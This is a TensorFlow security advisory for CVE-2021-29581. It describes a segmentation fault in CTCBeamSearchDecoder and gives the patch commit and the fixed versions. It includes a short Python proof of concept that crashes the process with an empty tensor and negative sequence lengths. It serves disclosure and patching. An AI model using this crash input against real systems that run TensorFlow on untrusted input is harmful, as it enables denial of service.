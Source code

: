 ## TFSA-2021-069: Segfault in `CTCBeamSearchDecoder`

### CVE Number
CVE-2021-29581

### Impact
Due to lack of validation in `tf.raw_ops.CTCBeamSearchDecoder`, an attacker can
trigger denial of service via segmentation faults:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[18, 8, 0], dtype=tf.float32)
sequence_length = tf.constant([11, -43, -92, 11, -89, -83, -35, -100],
shape=[8], dtype=tf.int32)
beam_width = 10
top_paths = 3
merge_repeated = True

tf.raw_ops.CTCBeamSearchDecoder(
  inputs=inputs, sequence_length=sequence_length, beam_width=beam_width,
  top_paths=top_paths, merge_repeated=merge_repeated)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/a74768f8e4efbda4def9f16ee7e13cf3922ac5f7/tensorflow/core/kernels/ctc_decoder_ops.cc#L68-L79)
fails to detect cases when the input tensor is empty and proceeds to read data
from a null buffer.

### Patches
We have patched the issue in GitHub commit
[b1b323042264740c398140da32e93fb9c2c9f33e](https://github.com/tensorflow/tensorflow/commit/b1b323042264740c398140da32e93fb9c2c9f33e).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
